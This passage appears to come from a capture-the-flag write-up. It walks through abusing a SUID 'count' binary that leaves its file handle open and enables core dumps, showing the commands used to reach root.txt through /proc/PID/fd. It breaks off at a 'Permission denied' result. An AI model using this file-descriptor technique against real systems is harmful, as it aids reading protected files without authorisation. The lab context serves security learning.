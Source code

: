 This bit is interesting as well:

    
    
        // Enable coredump generation
        prctl(PR_SET_DUMPABLE, 1);
    

### Exploit File Descriptors

#### File Read in /root

The intended path to exploit this binary is to abuse the file descriptors in
use by the `count` process. The issue in the source code is that it never
closes `file`, which is the handle to the given filepath. That means that as
long as the program is running, the handle will be in `/proc/[pid]/fd`.
Typically this would be flushed on the `setuid`, but because of
`PR_SET_DUMPABLE`, the file handles will stay open. To exploit this, I’ll run
the program, and then background it when it gets to the prompt:

    
    
    dasith@secret:/opt$ ./count 
    Enter source file/directory name: /root/root.txt
    
    Total characters = 33
    Total words      = 2
    Total lines      = 2
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    

I’ll get the PID of the process, in this case 1536:

    
    
    dasith@secret:/opt$ ps auxww | grep count
    root         841  0.0  0.1 235676  7416 ?        Ssl  15:40   0:00 /usr/lib/accountsservice/accounts-daemon
    dasith      1536  0.0  0.0   2488   584 pts/0    T    16:22   0:00 ./count
    dasith      1538  0.0  0.0   6432   728 pts/0    S+   16:22   0:00 grep --color=auto count
    

In that folder, the `3` points to `root.txt`:

    
    
    dasith@secret:/proc/1536/fd$ ls -l
    total 0
    lrwx------ 1 dasith dasith 64 Oct 26 16:23 0 -> /dev/pts/0
    lrwx------ 1 dasith dasith 64 Oct 26 16:23 1 -> /dev/pts/0
    lrwx------ 1 dasith dasith 64 Oct 26 16:23 2 -> /dev/pts/0
    lr-x------ 1 dasith dasith 64 Oct 26 16:23 3 -> /root/root.txt
    

Unfortunately, I can’t read it still:

    
    
    dasith@secret:/proc/1536/fd$ cat 3
    cat: 3: Permission denied
    